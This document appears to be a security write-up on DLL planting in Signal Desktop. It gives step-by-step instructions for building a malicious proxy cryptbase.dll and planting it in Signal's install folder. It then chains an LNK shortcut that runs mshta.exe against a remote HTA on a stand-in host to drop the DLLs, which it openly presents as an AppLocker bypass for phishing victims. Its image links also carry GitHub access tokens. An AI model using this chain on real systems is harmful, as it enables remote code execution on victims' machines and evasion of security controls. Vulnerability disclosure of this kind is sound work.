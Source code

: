 # Summary 
Multiple instances of DLL planting exist, and a threat actor can plant DLLs that don't exist but are referenced by the application. 

# Steps to Replicate
1. First, create a malicious DLL. Signal references a bunch of non-existent DLLs, so for this example, I used `cryptbase.dll`. You can use [this repository](https://github.com/tothi/dll-hijack-by-proxying) to build the DLL, but I'll simplify the steps for you:
   * Clone the repo.
   * Modify the `cryptbase.c` file as you see fit.
   * Copy `C:\Windows\System32\cryptbase.dll` into the `dll-hijack-by-proxying` directory as `cryptbase_original.dll`.
   * Create the exports using the `gen_def.py` script in the `dll-hijack-by-proxying` directory.

    ```
    python3 gen_def.py cryptbase_orig.dll > cryptbase.def
    ```
   
   * Run the following command if you're compiling for x64 Windows:

    ```
    compile x86_64-w64-mingw32-gcc -shared -o cryptbase.dll cryptbase.c cryptbase.def -s
    ```

2. Now you've got your malicious DLL. Copy `cryptbase.dll` and `cryptbase_orig.dll` into the `%LocalAppData\Programs\signal-desktop` folder.
3. Run Signal, and the code will execute. Here's a cute calculator PoC example:
   
    ![Calculator PoC](https://raw.githubusercontent.com/johnjhacking/placeholder/main/1.png?token=GHSAT0AAAAAABZSW66OBKS446AIMVFSEHF6ZASOIUQ)

# Turning up the Heat
If you're like me, simply popping the calculator isn't enough. Let's chain this as an LNK -> HTA -> Your Payload. Signal references non-existent DLL files, and you can chain this against as a bypass against something like AppLocker or a default deny tool, leveraging the trust of the product as a "safe" messenger.

1. Create an LNK shortcut, and change the target to the following:

    ```
    C:\Windows\System32\mshta.exe https://yourdomain/poc.hta
    ```

    It should look something like this:
   
    ![LNK PoC](https://raw.githubusercontent.com/johnjhacking/placeholder/main/2.png?token=GHSAT0AAAAAABZSW66P7OWYJP4BVQXBRA5GZASOJGQ)

2. Host your `cryptbase.dll` and `cryptbase_orig.dll` files.
3. Modify the code in the `poc.hta` file within this GitHub repo to utilize the URLs of your hosted DLL files.
4. Host the HTA on your domain.
5. Run the LNK shortcut and watch as the DLL files are dropped into the `%LocalAppData\Programs\signal-desktop` folder.
6. Now, when the victim runs Signal, your malicious DLL will run. Phishing ftw.
7. You can use whatever you want, but for a quick test, I hosted an HTA server to see if my HTA would drop the DLLs that execute an HTA LOL, so in my case, the chain was LNK -> HTA drops DLLs -> User runs Signal -> DLL executes remote HTA. In a non-poc scenario, I'd swap the HTA payload out with a custom DLL payload and cut out the secondary remote call.
   
    ![RCE Proof](https://raw.githubusercontent.com/johnjhacking/placeholder/main/3.png?token=GHSAT0AAAAAABZSW66OWR6EFTYZEPV3LOHCZASOJSQ)
